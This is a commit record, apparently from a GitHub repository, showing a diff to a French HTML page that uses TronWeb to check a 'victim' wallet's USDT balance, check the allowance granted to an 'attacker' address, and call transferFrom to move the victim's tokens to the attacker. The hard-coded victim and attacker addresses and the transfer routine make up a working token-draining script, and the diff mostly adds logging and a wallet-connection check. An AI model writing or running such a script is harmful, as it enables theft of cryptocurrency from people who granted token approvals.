

Before and after one commit to Zola-444/Super, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "1️⃣ Vérifier solde USDT de la victime". Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,73 +2,87 @@
 <html lang="fr">
 <head>
   <meta charset="UTF-8" />
-  <title>Test TRC20 - Vérifications & transferFrom</title>
+  <title>Debug TRC20 - Solde, Allowance, transferFrom</title>
   <script src="https://cdn.jsdelivr.net/npm/tronweb/dist/TronWeb.min.js"></script>
+  <style>
+    body { font-family: monospace; white-space: pre-wrap; }
+    button { margin: 5px 0; padding: 10px; width: 100%; font-size: 1.1em; }
+    #output { margin-top: 10px; background: #f0f0f0; padding: 10px; height: 250px; overflow-y: auto; border: 1px solid #ccc; }
+  </style>
 </head>
 <body>
-  <h2>🧪 Vérification des autorisations USDT TRC20</h2>
+  <h2>Debug TRC20 - Solde, Allowance, transferFrom</h2>
 
-  <!-- Boutons -->
+  <button onclick="checkTronWeb()">🔎 Vérifier état TronLink</button>
   <button onclick="checkBalance()">1️⃣ Vérifier solde USDT de la victime</button>
   <button onclick="checkAllowance()">2️⃣ Vérifier autorisation donnée</button>
   <button onclick="runTransferFrom()">3️⃣ Exécuter transferFrom</button>
 
-  <!-- Zone de retour -->
-  <pre id="output"></pre>
+  <div id="output"></div>
 
   <script>
-    // --- 🔧 À PERSONNALISER ---
-    const victim = "TB21PeujGEM51zg9CnSpop6EaqZ6ccKx3T"; // adresse de la victime
-    const attacker = "THRU2XfxP5vbUm6RPDpo3K7B12JVvYMD41"; // adresse receveuse
-    const tokenAddress = "TXLAQ63Xg1NAzckPwKHvzw7CSEmLMEqcdj"; // USDT TRC20
-    const proxyAddress = "TAo4rwUGQovSD9F3qSeecUAsJsyzLetWpH"; // contrat qui a reçu l'approbation
-    const amount = 1 * 1_000_000; // 1 USDT (en sun)
+    // --- PERSONNALISE ---
+    const victim = "TB21PeujGEM51zg9CnSpop6EaqZ6ccKx3T";
+    const attacker = "THRU2XfxP5vbUm6RPDpo3K7B12JVvYMD41";
+    const tokenAddress = "TXLAQ63Xg1NAzckPwKHvzw7CSEmLMEqcdj";
+    const amount = 1 * 1_000_000; // 1 USDT
 
-    // Affichage
     const output = document.getElementById("output");
+    function log(msg) {
+      console.log(msg);
+      output.textContent += msg + "\n";
+      output.scrollTop = output.scrollHeight;
+    }
 
-    function log(message) {
-      console.log(message);
-      output.textContent += message + "\n";
+    async function checkTronWeb() {
+      if (window.tronWeb && window.tronWeb.ready) {
+        log("✅ TronWeb est connecté !");
+        log("Adresse active : " + window.tronWeb.defaultAddress.base58);
+      } else {
+        log("❌ TronWeb non prêt. Connecte-toi via TronLink.");
+      }
     }
 
     async function getTokenContract() {
       if (!window.tronWeb || !window.tronWeb.ready) {
-        alert("Connecte-toi à TronLink !");
-        throw new Error("TronLink non connecté");
+        throw new Error("TronWeb non connecté");
       }
       return await window.tronWeb.contract().at(tokenAddress);
     }
 
     async function checkBalance() {
       try {
+        log("⏳ Vérification du solde en cours...");
         const contract = await getTokenContract();
         const balance = await contract.balanceOf(victim).call();
-        log(`💰 Solde de la victime : ${balance / 1_000_000} USDT`);
+        log(`💰 Solde victime (${victim}): ${balance / 1_000_000} USDT`);
       } catch (e) {
-        log("❌ Erreur balance : " + e.message);
+        log("❌ Erreur lors du checkBalance : " + (e.message || e));
       }
     }
 
     async function checkAllowance() {
       try {
+        log("⏳ Vérification de l'autorisation en cours...");
         const contract = await getTokenContract();
+        // allowance(owner, spender)
         const allowance = await contract.allowance(victim, attacker).call();
-        log(`🔐 Autorisation donnée à ${attacker} : ${allowance / 1_000_000} USDT`);
+        log(`🔐 Autorisation donnée par la victime à l'attaquant : ${allowance / 1_000_000} USDT`);
       } catch (e) {
-        log("❌ Erreur allowance : " + e.message);
+        log("❌ Erreur lors du checkAllowance : " + (e.message || e));
       }
     }
 
     async function runTransferFrom() {
       try {
+        log("⏳ Tentative d'exécution de transferFrom...");
         const contract = await getTokenContract();
         const tx = await contract.transferFrom(victim, attacker, amount).send({
-          feeLimit: 1_000_000,
+          feeLimit: 2_000_000
         });
-        log(`🚀 transferFrom envoyé ! txID : ${tx}`);
+        log(`🚀 transferFrom envoyé, txID : ${tx}`);
       } catch (e) {
-        log("❌ Erreur transferFrom : " + e.message);
+        log("❌ Erreur lors du transferFrom : " + (e.message || e));
       }
     }
   </script>
```
